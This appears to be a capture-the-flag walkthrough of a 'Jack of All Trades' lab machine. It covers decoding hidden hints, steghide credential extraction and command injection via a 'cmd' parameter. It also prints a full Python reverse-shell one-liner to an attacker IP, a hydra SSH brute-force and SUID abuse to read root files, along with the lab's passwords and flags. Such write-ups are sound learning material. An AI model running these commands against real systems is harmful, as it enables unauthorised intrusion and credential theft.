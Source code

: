 ## A. Enumeration

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 
80/tcp open  ssh     OpenSSH 6.7p1 Debian S: Linux; CPE: cpe:/o:linux:linux_kerne
```

ports for ssh and http are reversed

### HTTP

1. Firefox returned an error when trying to visit < IP >:22  
![[Pasted image 20230723205407.png]]

2. Made the following changes :
    1. entered `about:config` in a new tab
    2. searched for `network.security.ports.banned.override`
    3. select `string` and the `+` icon next to it
    4. add `22` in the input and done
3. The source code of index had interesting comments
```
/recovery.php!

UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==
```

When decoded the above strings with base64 we get

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

4. `http://10.10.12.11:22/recovery.php` returned a login page, the source code of this page also had an encoded string
```
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=
```

5. Decoded the strings "from base32" to "from hex" to "from rot13" and we get the below strings

![[Pasted image 20230723210440.png]]

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

6. Short link leads to `https://en.wikipedia.org/wiki/Stegosauria` , this maybe a hint that passwords is hidden in the dinosaur image at the index.html
7. Ran a `feroxbuster` command to check the the image was located `http://10.10.12.11:22/assets/
8. Downloaded the image
```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/jack-of-all-trades]
└──╼ $wget http://10.10.12.11:22/assets/stego.jpg
--2023-07-23 21:08:19--  http://10.10.12.11:22/assets/stego.jpg
```
9. `steghide` revealed iamge had something hidden in it
```
─[glack@parrot]─[~/Desktop/THM/jack-of-all-trades]
└──╼ $steghide extract -sf stego.jpg 
wrote extracted data to "creds.txt"
```
passphrase was the above one we found: 
`u?WtKSraq`

10. `cat creds.txt`
    1. ``` Hehe. Gotcha!

You're on the right path, but wrong image!```


11. Now trying with a different image
```
─[✗]─[glack@parrot]─[~/Desktop/THM/jack-of-all-trades]
└──╼ $steghide extract -sf header.jpg 
Enter passphrase: 
wrote extracted data to "cms.creds".
```

12. We get another set of credentials
```
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY

```

13. We are able to login into /recovery.php with these creds, we are shown this text message
```
GET me a 'cmd' and I'll run it for you Future-Jack.
```

## B. Foothold

1. Maybe cmd is an paramater here with our desired command we wish to run
2. Great, we were right. upon running 

```
http://10.10.12.11:22/nnxhweOV/index.php?cmd=id 
```

we get the results of `id` command

3. Lets check if python is installed so we can try to get a reverse shell using python
```
http://10.10.12.11:22/nnxhweOV/index.php?cmd=which%20python
```
4. Python is installed, created a reverseshell command using shellgen
```
┌─[glack@parrot]─[~/Desktop/shellgen]
└──╼ $./shellgen tun0 9999 3

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.24.189",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
5. intercepted the request using burp, changed the `cmd` paramter value to `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.24.189",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
6. started a netcat listener before sending the request from burpsuite
```
─[glack@parrot]─[~/Desktop/shellgen]
└──╼ $nc -lnvp 9999
```
7. We get a shell
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Priv ESC

### 1. Horizontal Priv Esc

1. In the home directory there is a file with potential jack's passwords 
```
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
```
2. We copy the contents into our local machine and use hydra to perform a wordlist attack or target ssh

```
─[glack@parrot]─[~/Desktop/THM/jack-of-all-trades]
└──╼ $hydra -l jack -P jac_pass.txt 10.10.12.11 ssh -s 80
```

here jac_pass.txt is the potential jack's password list that we found.

3. We get jack's credentials, we can now ssh into target machine using 
```
80][ssh] host: 10.10.12.11   login: jack   password: ITMJpGGIqg1jn?>@
```

### 2. Vertical Priv Esc 

1. we see a user.jpg file in the jack's home directory, we download it on to our system using

```
jack@jack-of-all-trades:~$ python -m SimpleHTTPServer 8000
```

```
┌─[glack@parrot]─[~/Desktop/THM/jack-of-all-trades]
└──╼ $wget http://10.10.12.11:8000/user.jpg
```

2. upon inspecting the contents of the image, we can see a string with flag like format. I manually wrote it and check to see if this is actually the user flag and it worked, we successfully found the user flag
```
securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}
```

3. the SUID bits revealed strings can be run as owner(root)

    Used the write up here because i missed `strings` in my standard process

```
jack@jack-of-all-trades:~$ find / -type f -perm -4000 -ls 2>/dev/null

133270   28 -rwsr-x---   1 root     dev         27536 Feb 25  2015 /usr/bin/strings
```

with this we can easily get the root flag

```
jack@jack-of-all-trades:~$ strings /root/root.txt

6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}

```